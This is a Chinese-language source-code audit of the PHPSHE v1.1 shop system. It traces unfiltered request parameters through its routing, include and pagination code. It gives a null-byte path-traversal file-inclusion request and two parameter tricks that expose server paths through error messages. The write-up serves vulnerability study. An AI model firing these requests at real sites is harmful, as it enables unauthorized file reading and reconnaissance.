 ### **PHPSHE V1.1 （一）**

## **安裝phpshe**
/install/index.php
安裝成功後、分別打開前台/和後台```/admin.php?mod=do&act=login```


## 框架概覽

用submlie text 2打開源碼文件夾，用CTags生成標籤索引。

## **目錄結構**

根目錄/下面有：

- /data
- /hook
- /include
- /module
- /template
- robots.txt
- index.php
- admin.php
- config.php
- common.php
- .htaccess
- httpd.ini
接下來，分別瀏覽以上文件、分析起作用。


## **robots.txt**

```
#
# robots.txt for phpshe1.1
#
User-agent: * 
Disallow: /data
Disallow: /hook
Disallow: /include
Disallow: /module
Disallow: /template
Disallow: /admin.php
Disallow: /config.php
Disallow: /common.php
```

該文件洩漏了程序版本及文件結構訊息

**index.php 和 admin.php**
這兩個文件分別是前台和後台的入口文件,稍後仔細分析。


### **config.php**
<br >
資料庫配置訊息
<br >
### **common.php**
<br >
該文件作為來源數據處理和URL路由配置以及資料庫連接。
<br >
### **.htaccess 和 httpd.ini**
<br >
WEB服務程序的地址重新配置文件

## **來源數據處理文件 common.php**
```
//Line:6

error_reporting(E_ALL ^ E_NOTICE);
```

開啟了日誌報告、很多錯誤訊息都會顯示、也就可能有不少訊息洩漏的漏洞
```
//Line:15-19

//url路由配置
$module = $mod = $act = 'index';
$mod = $_POST['mod'] ? $_POST['mod'] : ($_GET['mod'] ? $_GET['mod'] : $mod);
$act = $_POST['act'] ? $_POST['act'] : ($_GET['act'] ? $_GET['act'] : $act);
$id = $_POST['id'] ? $_POST['id'] : ($_GET['id'] ? $_GET['id'] : $id);
```

`$mod`、`$act`、`$id`這幾個變數並沒有進過過濾處理。

## **前台入口 index.php**

該文件首先包含common.php，包含了各種類文件。
<br >
通過cache::get()獲取一些緩存訊息。
<br >
根據$module和$mod加載不同的模塊。
```
//Line:15

include("{$pe['path_root']}module/{$module}/{$mod}.php");
```
`$mod`沒有經過處理就直接引入到`include()`函數中。
<br >
雖然限定了`.php`後綴，但是並沒有什麼用。
PHP使用C語言開發的，%00也就是\0是結束符，可以截斷字符串。

### **【Bug 0x01: 任意文件包含漏洞 有限制條件】**
```/index.php?mod=../../robots.txt%00```


### **前臺模塊**
接下來，我們在跟進分析`/module/index/`裏面的前天模塊：
- index.php
- arcticle.php
- page.php
- order.php
- product.php
- user.php

### **index.php**
文件路徑 `/module/index/index.php`
<br />
看了下、這個文件沒什麼好分析的

### **arcticle.php**
文件路徑 `/module/index/arcticle.php`
模塊內容直接就是判斷`$act`選擇文章列表或者文章內容。
<br />
我們跟進文章列表
```
//Line:7

$info_list = $db->pe_selectall('article', array('class_id'=>$class_id, 'order by'=>'`article_atime` desc'), '*', array(20, $_g_page));
```

此處有可以疑點，變數`$_g_page`未經過濾引入sql查詢。
我們跟進函數`pe_selectall()`，跳轉到`/include/class/db.class.php`文件


```
//Line:129

public function pe_selectall($table, $where = '', $field = '*', $limit_page = array())｛
    ...
    return $this->sql_selectall("select {$field} from `".dbpre."{$table}` {$sqlwhere}", $limit_page);
```

繼續跟進sql_selectall()函數
```
//Line:82

public function sql_selectall($sql, $limit_page = array())｛
    ...
    $this->page = new page($allnum, $limit_page[1], $limit_page[0]);
```

繼續跟進page類
```
//Line:17

function __construct($allnum, $page = null, $listnum = null, $pagenum = null)｛
    ...
    $this->page = $page === null ? 1 : $page;
    $this->listnum = $listnum === null ? 20 : $listnum;
    ...
    $this->limit = $this->get_limit();
```

繼續跟進get_limit()函數
```
//Line:30    

function get_limit()
{
    empty($this->page) && $this->page = 1;
    $limit = ($this->page - 1) * $this->listnum;
    return " limit {$limit}, {$this->listnum}";
}
```

這時我們可以知道，變數`$_g_page`最終被引入到了`$limit`之中帶入了sql查詢語句。
<br />
當然`$limit`是`$this->listnum`和`$this->page - 1`的乘積，這樣就限制了很多利用方法。

### **【Bug 0x02: 訊息洩露 爆路徑 Fatal error】**
當`$_g_page`是陣列，即訪問`index.php?mod=article&id=1&act=list&page[]=1`

```Fatal error: Unsupported operand types in E:\SourceCodes\phpshe1.1\include\class\page.class.php```

### **【Bug 0x03: 訊息洩露 爆路徑 Warning】**

當`$_g_page`是字符串，即訪問`index.php?mod=article&id=1&act=list&page=a`

```Warning: mysql_fetch_assoc() expects parameter 1 to be resource, boolean given in E:\SourceCodes\phpshe1.1\include\class\db.class.php```